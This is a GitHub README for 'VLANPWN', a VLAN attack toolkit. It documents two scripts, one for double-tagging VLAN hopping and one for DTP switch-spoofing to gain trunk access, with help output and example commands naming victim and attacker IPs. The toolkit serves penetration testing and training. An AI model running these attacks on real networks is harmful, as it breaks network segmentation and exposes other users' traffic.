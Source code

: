 # VLANPWN
VLAN attacks toolkit

**The author has nothing to do with those who will use this tool for personal purposes to destroy other people's computer networks. The tools are presented for training purposes to help engineers improve the security of their network.**

**ᛝ**

**DoubleTagging.py** - This tool is designed to carry out a VLAN Hopping attack. As a result of injection of a frame with two 802.1Q tags, a test ICMP request will also be sent.

**DTPHijacking.py** - A script for conducting a DTP Switch Spoofing/Hijacking attack. Sends a malicious DTP-Desirable frame, as a result of which the attacker's machine becomes a trunk channel. The impact of this attack is that you can bypass the segmentation of VLAN networks and see all the traffic of VLAN networks.

```
python3 DoubleTagging.py --help

.s    s.  .s        .s5SSSs.  .s    s.  .s5SSSs.  .s s.  s.  .s    s.
      SS.                 SS.       SS.       SS.    SS. SS.       SS.
sS    S%S sS        sS    S%S sSs.  S%S sS    S%S sS S%S S%S sSs.  S%S
SS    S%S SS        SS    S%S SS`S. S%S SS    S%S SS S%S S%S SS`S. S%S
SS    S%S SS        SSSs. S%S SS `S.S%S SS .sS::' SS S%S S%S SS `S.S%S
 SS   S%S SS        SS    S%S SS  `sS%S SS        SS S%S S%S SS  `sS%S
 SS   `:; SS        SS    `:; SS    `:; SS        SS `:; `:; SS    `:;
  SS  ;,. SS    ;,. SS    ;,. SS    ;,. SS        SS ;,. ;,. SS    ;,.
   `:;;:' `:;;;;;:' :;    ;:' :;    ;:' `:        `:;;:'`::' :;    ;:'

VLAN Double Tagging inject tool. Jump into another VLAN!

Author: @necreas1ng, <necreas1ng@protonmail.com>

usage: DoubleTagging.py [-h] --interface INTERFACE --nativevlan NATIVEVLAN --targetvlan TARGETVLAN --victim VICTIM --attacker ATTACKER

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Specify your network interface
  --nativevlan NATIVEVLAN
                        Specify the Native VLAN ID
  --targetvlan TARGETVLAN
                        Specity the target VLAN ID for attack
  --victim VICTIM       Specity the target IP
  --attacker ATTACKER   Specify the attacker IP
  ```
  Example:
  
  ```
  python3 DoubleTagging.py --interface eth0 --nativevlan 1 --targetvlan 20 --victim 10.10.20.24 --attacker 10.10.10.54
  ```
  
  ```
  python3 DTPHijacking.py --help
  
.s    s.  .s        .s5SSSs.  .s    s.  .s5SSSs.  .s s.  s.  .s    s.
      SS.                 SS.       SS.       SS.    SS. SS.       SS.
sS    S%S sS        sS    S%S sSs.  S%S sS    S%S sS S%S S%S sSs.  S%S
SS    S%S SS        SS    S%S SS`S. S%S SS    S%S SS S%S S%S SS`S. S%S
SS    S%S SS        SSSs. S%S SS `S.S%S SS .sS::' SS S%S S%S SS `S.S%S
 SS   S%S SS        SS    S%S SS  `sS%S SS        SS S%S S%S SS  `sS%S
 SS   `:; SS        SS    `:; SS    `:; SS        SS `:; `:; SS    `:;
  SS  ;,. SS    ;,. SS    ;,. SS    ;,. SS        SS ;,. ;,. SS    ;,.
   `:;;:' `:;;;;;:' :;    ;:' :;    ;:' `:        `:;;:'`::' :;    ;:'

DTP Switch Hijacking tool. Become a trunk!

Author: @necreas1ng, <necreas1ng@protonmail.com>

usage: DTPHijacking.py [-h] --interface INTERFACE

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Specify your network interface
```
Example:

```
python3 DTPHijacking.py --interface eth0
```
